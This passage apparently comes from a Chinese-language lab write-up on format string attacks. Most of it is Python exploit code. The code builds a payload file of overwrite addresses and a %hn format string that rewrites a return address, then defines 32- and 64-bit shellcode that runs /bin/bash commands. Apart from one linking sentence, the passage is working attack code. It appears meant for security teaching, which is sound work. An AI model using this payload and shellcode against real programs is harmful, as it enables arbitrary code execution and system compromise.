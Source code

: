```python
        24] = (target_addr+4).to_bytes(8, byteorder='little')
content[addrs_start + 24: addrs_start + 32] = ("abcdefgh").encode("latin-1")
content[addrs_start + 32: addrs_start +
        40] = (target_addr).to_bytes(8, byteorder='little')
content[addrs_start + 40: addrs_start + 48] = ("abcdefgh").encode("latin-1")
content[addrs_start + 48: addrs_start +
        56] = (target_addr + 2).to_bytes(8, byteorder='little')  # 0x0000

len1 = 0x7FFF
len2 = 0xE310 - 0x7FFF
len3 = 0xFFFF - 0xE310
s = "%162$hn" + f"%.{len1}x" + "%164$hn" + f"%.{len2}x" + "%166$hn" + f"%.{len3}x" + "%168$hn"
fmt = (s).encode("latin-1")
content[0:len(fmt)] = fmt

# Put the shellcode somewhere in the payload
shell_code_start = 0x40
content[shell_code_start:shell_code_start + len(shellcode)] = shellcode


# Save the format string to file
with open('badfile', 'wb') as f:
    f.write(content)

```



![image-20220225175117397](Format String.assets/image-20220225175117397.png)

在此基础上，修改返回地址，运行shell code。

```python
#!/usr/bin/python3
import sys

# 32-bit Generic Shellcode
shellcode_32 = (
    "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
    "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
    "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
    "/bin/bash*"
    "-c*"
    # The * in this line serves as the position marker         *
    "/bin/ls -l; echo '===== Success! ======'                  *"
    "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
    "BBBB"   # Placeholder for argv[1] --> "-c"
    "CCCC"   # Placeholder for argv[2] --> the command string
    "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')


# 64-bit Generic Shellcode
shellcode_64 = (
    "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
    "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
    "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
    "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
    "/bin/bash*"
    "-c*"
    # The * in this line serves as the position marker         *
    "/bin/ls -l; echo '===== Success! ======'                  *"
    "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
    "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
    "CCCCCCCC"   # Placeholder for argv[2] --> the command string
```